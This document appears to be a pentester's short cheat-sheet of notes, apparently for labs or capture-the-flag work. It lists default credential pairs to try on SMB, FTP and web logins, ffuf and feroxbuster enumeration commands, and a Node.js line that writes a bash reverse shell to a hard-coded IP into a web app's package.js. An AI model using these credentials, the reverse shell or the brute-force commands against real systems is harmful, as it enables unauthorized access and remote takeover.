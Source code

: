# General

# Creds to try

If you have access to SMB, FTP, and probably a http login form, try these creds, always.

```jsx
admin:admin
guest:
admin:
%:
root:root
root:toor
guest:guest
anonymous:anonymous
anonymous:
```

## Build .NET project

With Microsoft’s `dotnet` CLI, you can build a .NET project (will probably have `.sln` file with it). 

```jsx
cd /project/directory
dotnet build 
```

![Untitled](General%209e869c69efa440d7a7c140193812915f/Untitled.png)

### Escape single quotes

You can escape single quotes `'` with 2 backslashes

```jsx
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/192.168.60.1/53 0>&1\\''" > /var/www/node/package.js
```

# Quick Commands

Subdomain enumeration with ffuf

```jsx
ffuf -u http://postfix.off/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.postfix.off" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" -mc all -fs 0 | tee ffuf/subdomain-80
```

Directory enum with feroxbuster

```jsx
feroxbuster -u http://billy:8081/ -w /usr/share/wordlists/kkrypt0nn/directory_scanner/big.txt -m POST,GET -t 35 | tee ffuf/8081pg-ferox
```